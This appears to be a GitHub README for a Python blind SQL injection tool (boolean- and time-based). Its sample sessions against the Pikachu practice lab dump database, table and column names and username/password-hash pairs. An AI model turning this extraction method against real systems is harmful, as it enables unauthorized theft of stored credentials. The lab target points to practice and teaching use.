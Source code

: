 # sql_blind
A simple tool/framework for boolean-based or time-based sql injection(blind) 

**sql_blind是一款用于基于布尔的SQL盲注和基于时间的SQL盲注的简单工具/框架**

# 简介

sql_blind是为了方便SQL盲注而开发的小工具/框架，目前支持基于布尔的SQL盲注和基于时间的SQL盲注。
其主要目的是辅助手工注入，缩短手工注入的时间。
使用者需要根据实际情况修改payload和部分参数。
小工具（的示例）基于pikachu漏洞平台SQL-Inject的盲注关卡开发，如有必要可以用这两个关卡进行测试。

#环境要求

本工具基于python3，使用前请先确保安装了python3

# 使用方法

1 下载源代码，根据实际情况修改sqli_bb.py和sqli_tb.py的payload和部分参数
2 命令行进入源代码所在文件夹（比如sqli_blind）上级文件夹
输入
python
>>> from sqli_blind import *
然后调用各函数即可

#示例

##布尔盲注

以pikachu漏洞平台SQL-Inject的布尔盲注关卡为例：

\>\>\> from sqli_blind import *
>>> CurrentDatabaseBool()
the name of current database contains 7 characters
the name of current database is PIKACHU
>>> TablesBool()
the name of all tables in current database contains 38 characters
the name of all tables in current database is HTTPINFO,MEMBER,MESSAGE,USERS,XSSBLIND
>>> ColumnsBool()
the name of all columns in current table contains 164 characters
the name of all columns in current table is USER_ID,FIRST_NAME,LAST_NAME,USER,PASSWORD,AVATAR,LAST_LOGIN,FAILED_LOGIN,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,ID,USERNAME,PASSWORD,LEVEL,ID,USERNAME,PASSWORD
>>> ContentBool()
the content contains 117 characters
the content is ADMIN^E10ADC3949BA59ABBE56E057F20F883E,PIKACHU^670B14728AD9902AECBA32E22FA4F6BD,TEST^E99A18C428CB38D5F260853678922E03

##时间盲注

以pikachu漏洞平台SQL-Inject的时间盲注关卡为例：

>>> from sqli_blind import *
>>> CurrentDatabaseTime()
the name of current database contains 7 characters
the name of current database is PIKACHU
>>> TablesTime()
the name of all tables in current database contains 38 characters
the name of all tables in current database is HTTPINFO,MEMBER,MESSAGE,USERS,XSSBLIND
>>> ColumnsTime()
the name of all columns in current table contains 164 characters
the name of all columns in current table is USER_ID,FIRST_NAME,LAST_NAME,USER,PASSWORD,AVATAR,LAST_LOG!N,FAILED_LOGIN,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,ID,USERNAME,PASSWORD,LEVEL,ID,USERNAME,PASSWORD
>>> ContentTime()
the content contains 117 characters
the content is ADMIN^E10ADC3949BA59ABBE56E057F20F883E,PIKACHU^670B14728AD9902AECBA32E22FA4F6BD,TEST^E99A18C428CB38D5F260853678922E03

